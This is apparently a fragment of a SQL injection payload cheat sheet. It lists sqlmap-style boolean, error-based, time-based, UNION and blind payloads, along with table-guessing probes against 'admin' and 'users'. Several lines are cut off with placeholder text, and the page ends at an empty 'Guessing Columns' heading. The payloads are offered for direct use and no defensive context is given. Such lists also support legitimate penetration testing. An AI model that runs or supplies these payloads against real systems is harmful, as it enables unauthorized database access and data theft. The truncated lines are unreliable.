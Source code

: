 ")) or (("x"))=(("x

  
  

## If above queries don't work try with these sqlmap payoads:

  
  
'.)))("),.  
'ghwshP<'">CZuifw  
)+AND+4287=8913+AND+(7303=7303  
)+AND+8680=8680+AND+(6351=6351  
+AND+4573=5119  
+AND+8680=8680  
')+AND+9284=3986+AND+('ndfW'='ndfW  
')+AND+8680=8680+AND+('juwu'='juwu  
+AND+2138=DBMS_PIPE.RECEIVE_MESSAGE(CHR(83)||CHR(x.x.x.x  
')+AND+2138=DBMS_PIPE.RECEIVE_MESSAGE(CHR(83)||CHR(x.x.x.x  
(SELECT+3273+FROM(SELECT+COUNT(*),CONCAT(0x716a6a7671,(SELECT+(ELT(3273=3273,1))),0x716b717071,FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)  
(SELECT+CONCAT(0x716a6a7671,(SELECT+(ELT(6967=6967,1))),0x716b717071))  
+AND+4920=(SELECT+UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(x.x.x.x  
)+AND+7244=4397+AND+(3968=3968  
)+AND+6379=6379+AND+(1483=1483  
')+AND+2572=3816+AND+('alWa'='alWa  
')+AND+6379=6379+AND+('mxeB'='mxeB  
)+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+tsVj  
+ORDER+BY+1--+UCdp  
+UNION+ALL+SELECT+NULL--+UzBg  
+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+ISdf  
')+ORDER+BY+8048--+qQkS  
')+UNION+ALL+SELECT+NULL--+TFas  
')+UNION+ALL+SELECT+NULL,NULL--+EZcP  
%'+ORDER+BY+1--+NSgg  
%'+ORDER+BY+7605--+dZkK  
%'+UNION+ALL+SELECT+NULL--+JQPp  
%'+UNION+ALL+SELECT+NULL,NULL--+VtSC  
+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+Lbrh  
' UNION ALL SELECT NULL,NULL,CONCAT(0x716b6b6271,IFNULL(CAST(table_name AS CHAR),0x20),0x7162627671),NULL,NULL FROM INFORMATION_SCHEMA.TABLES-- sd  
  

## If nothing works try these Blind sql payloads:

  
  
' AND (select 1)=1  
Guessing Table name:  
' AND (select 1 from admin limit 0,1)=1  
' AND (select 1 from users limit 0,1)=1  

## Guessing Columns:
